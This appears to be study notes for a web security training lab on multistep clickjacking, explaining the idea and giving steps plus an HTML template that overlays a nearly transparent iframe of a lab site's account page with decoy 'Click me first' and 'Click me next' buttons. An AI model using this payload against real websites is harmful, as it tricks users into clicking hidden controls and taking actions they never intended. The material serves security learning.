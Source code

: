 ## Multistep clickjacking
Attacker manipulation of inputs to a target website:
- may necessitate multiple actions.

For example, an attacker might want:
- to trick a user into buying something from a retail website 
	- so items need to be added to a shopping basket before the order is placed. 

These actions can be implemented by the attacker:
- using multiple divisions or iframes. 

Such attacks require:
- considerable precision 
- care from the attacker perspective if they are to be effective and stealthy

### Multistep clickjacking
1. Log in to your account on the target website and go to the user account page.
2. Go to the exploit server and paste the following HTML template into the "Body" section:
```html
<style>
	iframe {
		position:relative;
		width:500px;
		height: 700px;
		opacity: 0.1;
		z-index: 2;
	}
   .firstClick, .secondClick {
		position:absolute;
		top:415px;
		left:60px;
		z-index: 1;
	}
   .secondClick {
		top:497px;
		left:52px;
	}
</style>
<div class="firstClick">Click me first</div>
<div class="secondClick">Click me next</div>
<iframe src="https://0abe008f0407f6d58b6dee0b00b8004b.web-security-academy.net/my-account"></iframe>
```
